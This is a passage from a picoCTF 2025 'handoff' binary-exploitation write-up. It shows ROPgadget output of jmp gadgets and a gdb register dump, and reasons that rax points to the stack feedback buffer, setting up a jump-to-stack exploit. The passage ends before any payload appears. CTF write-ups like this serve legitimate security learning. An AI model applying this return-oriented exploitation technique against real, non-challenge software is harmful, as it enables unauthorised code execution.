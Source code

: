 We can try using a ROP gadget to perform this task. 
```
└─$ ROPgadget --binary=handoff | grep jmp
0x0000000000401036 : add byte ptr [rax], al ; add dl, dh ; jmp 0x401020
0x0000000000401038 : add dl, dh ; jmp 0x401020
0x00000000004012f8 : add dword ptr [rbp - 4], 1 ; jmp 0x401249
0x0000000000401085 : add eax, 0xf2000000 ; jmp 0x401020
0x00000000004011f3 : cli ; jmp 0x401180
0x00000000004011f0 : endbr64 ; jmp 0x401180
0x0000000000401165 : je 0x401170 ; mov edi, 0x404060 ; jmp rax
0x00000000004011a7 : je 0x4011b0 ; mov edi, 0x404060 ; jmp rax
0x000000000040103a : jmp 0x401020
0x00000000004011f4 : jmp 0x401180
0x00000000004012fc : jmp 0x401249
0x00000000004012a5 : jmp 0x401407
0x00000000004013f1 : jmp 0x40140c
0x000000000040100b : jmp 0x4840103f
0x000000000040116c : jmp rax
0x00000000004013ed : mov byte ptr [rbp - 5], 0 ; jmp 0x40140c
0x0000000000401167 : mov edi, 0x404060 ; jmp rax
0x00000000004011ec : nop dword ptr [rax] ; endbr64 ; jmp 0x401180
0x0000000000401166 : or dword ptr [rdi + 0x404060], edi ; jmp rax
0x0000000000401163 : test eax, eax ; je 0x401170 ; mov edi, 0x404060 ; jmp rax
0x00000000004011a5 : test eax, eax ; je 0x4011b0 ; mov edi, 0x404060 ; jmp rax
```
There are several gadgets here that use the jmp instruction. One stood out to me as I remembered something I saw while debugging in gdb:
```
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffdbb4  →  0x0000000a46464646 ("FFFF\n"?)
$rbx   : 0x00007fffffffdce8  →  0x00007fffffffe070  →  "/home/vsingh/Downloads/CTF/picoCTF_2025/pwn/handof[...]"
$rcx   : 0xa464646         
$rdx   : 0xfbad2288        
$rsp   : 0x00007fffffffd8d0  →  "off/handoff"
$rbp   : 0x00007fffffffdbc0  →  0x00007fffffffdbd0  →  0x0000000000000001
$rsi   : 0xa464646         
$rdi   : 0x00007ffff7f95720  →  0x0000000000000000
$rip   : 0x00000000004013ed  →  <vuln+01c4> mov BYTE PTR [rbp-0x5], 0x0
$r8    : 0x00000000004052a5  →  "BBBCCCCCCCCDDDDDDDDEEEEEEEE\n"
$r9    : 0x0               
$r10   : 0x00007ffff7f3afe0  →  0x0000000100000000
$r11   : 0x246             
$r12   : 0x0               
$r13   : 0x00007fffffffdcf8  →  0x00007fffffffe0ac  →  "SHELL=/bin/bash"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$r15   : 0x0               
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
```
The `$rax` register contains the stack address of the start of the feedback buffer. 
